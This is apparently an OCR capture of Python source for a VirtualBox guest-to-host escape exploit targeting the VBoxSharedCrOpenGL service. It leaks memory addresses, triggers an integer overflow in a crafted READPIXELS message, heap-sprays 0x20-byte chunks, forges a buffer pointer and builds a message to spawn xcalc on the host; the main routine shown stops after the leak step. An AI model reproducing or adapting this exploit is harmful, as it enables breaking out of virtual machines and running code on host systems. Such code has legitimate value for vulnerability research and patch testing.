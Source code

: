 ```python
    while(read_line <= 0x90) :
        leak_addr = res[read_line:read_line+8]
	leak_addr = unpack('Q',leak_addr)[0] #unpack(long long, string)
        print (hex(leak_addr))
        if((leak_addr > 0x7f0000000000)and((leak_addr) < 0x7fffffffffff)):
	    return ((leak_addr + 0x22edd8), (leak_addr - 0x307418))
        read_line = read_line + 8
    return (0,0)

# server dispatch_table
# integer overflow len 0x20
def make_readpixels_msg(uiId, uiSize):
    msg = (
	pack("<III", CR_MESSAGE_OPCODES, 0X41414141,1) # type, conn_id, numOpcodes
	+ "\x00\x00\x00" + chr(CR_READPIXELS_OPCODE)  # opcode1
	+ pack("<III", 0,0,0) # x, y, width
	+ pack("<I",8) #height
	+ pack("<I",0x35) #format, type, pixls, heap chunk
	+ pack("<I",0)
	+ pack("<IIII",0,0,0,0) # stride, alignment, skipRows, skipPixels
	+ pack("<I", 0x1ffffffd) # bytes_per_row
	+ pack("<I",0) #rowLength
	+ pack("<II", uiId, uiSize) #uiID, uiSize
    )
    return msg

def heapSpray(client):
    buf_ids = []

# make heap 0x20
    for i in range(130):
	buf_ids.append(hgcm_call(client,SHCRGL_GUEST_FN_WRITE_BUFFER,[0, 0x20, 0, "B"*0x20])[0])

# how to free? 0x20
    for i in range(1,60,2) :
	hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [buf_ids[i], "C"*0x20, 1337])

#crvBoxSvcBuffer
def svcfull_msg(addr) :
    msg = (
	pack("<I", 0xdeadcafe) #uiID
	+ pack("<I", 0xeeeeeeee) #uiSize
	+ pack("<Q", addr) #pData
	)
    return msg

def xcalc(addr) :
    msg = (
        pack("<III", CR_MESSAGE_OPCODES, 0x41414141, 1)
        +"\x00\x00\x00" + chr(CR_BOUNDSINFOCR_OPCODE)
        + pack("<I",0)
        + "xcalc\x00\x20\x20\x20\x20\x20\x20\x20\x20"
        + "111111"
        + pack("<Q", addr) # xcalc argv
        )
    return msg

if __name__=='__main__':
    client = hgcm_connect("VBoxSharedCrOpenGL")
    set_version(client)
    msg = leak_msg(0x90)
    res = crmsg(client, msg)

```